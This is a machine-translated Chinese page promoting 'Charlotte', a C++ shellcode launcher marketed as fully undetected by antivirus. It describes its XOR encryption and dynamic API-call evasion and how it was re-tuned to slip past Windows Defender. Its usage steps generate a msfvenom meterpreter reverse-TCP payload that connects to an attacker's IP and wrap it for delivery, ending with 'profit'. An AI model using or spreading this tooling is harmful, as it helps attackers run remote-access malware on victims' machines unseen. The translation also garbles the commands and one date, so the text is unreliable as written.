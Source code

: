 # 夏洛特:C++完全未检测外壳代码启动器

> 原文：<https://kalilinuxtutorials.com/charlotte/>

[![Charlotte : C++ Fully Undetected Shellcode Launcher](img//485e7d5738e5683bddfcd9f45d281c5f.png "Charlotte : C++ Fully Undetected Shellcode Launcher")](https://1.bp.blogspot.com/-VUT6bDh0Iag/YLsqUC3ZeKI/AAAAAAAAJU4/Oub2UJiEU4wAN5TLhOnuTcOyebisdcwdQCLcBGAsYHQ/s640/charlotte.gif)

**Charlotte** 是一个 c++完全未被检测到的外壳代码启动器。

**描述**

*   2021 年 5 月 13 日:
    *   c++外壳代码启动器，2021 年 5 月 13 日完全未被检测到。
    *   win32 api 函数的动态调用
    *   外壳代码和函数名的异或加密
    *   每次运行的随机 XOR 密钥和变量
    *   在 Kali Linux 上，只需“apt-get install mingw-w64*”就可以了！
*   2021 年 5 月 17 日:
    *   随机字符串长度和 XOR 密钥长度

**Antiscan.me**

![](img//a212c6839cae5b967321bec28d81dd2c.png)

**用途**

git 克隆存储库，用命名 beacon.bin 生成 shellcode 文件，并运行 charlotte.py

**举例:**

**git 克隆[https://github.com/9emin1/charlotte.git](https://github.com/9emin1/charlotte.git)&&apt-get 安装 mingw-w64*
cd 夏洛特
MSF venom-p windows/x64/meter preter _ reverse _ TCP LHOST = $ YOUR _ IP LPORT = $ YOUR _ PORT-f raw>beacon . bin
python Charlotte . py
盈利**

经 msfvenom -p 测试(如。gif POC 如下)和钴罢工原始格式有效载荷

![](img//16ca897a18311f6e54f54e278b6080d6.png)

**更新 1.1 版**

2011 年 5 月 17 日:

显然微软的 Windows Defender 能够检测到。DLL 二进制文件，他们是如何标记它的？通过查找几个 16 字节大小的 XOR 密钥，将其更改为 POC 中显示的 9。下面的 gif 显示它现在再次未被发现，欢呼。

![](img//7fe5a6b15eef8e4affb04803632ed5f9.png)[**Download**](https://github.com/9emin1/charlotte)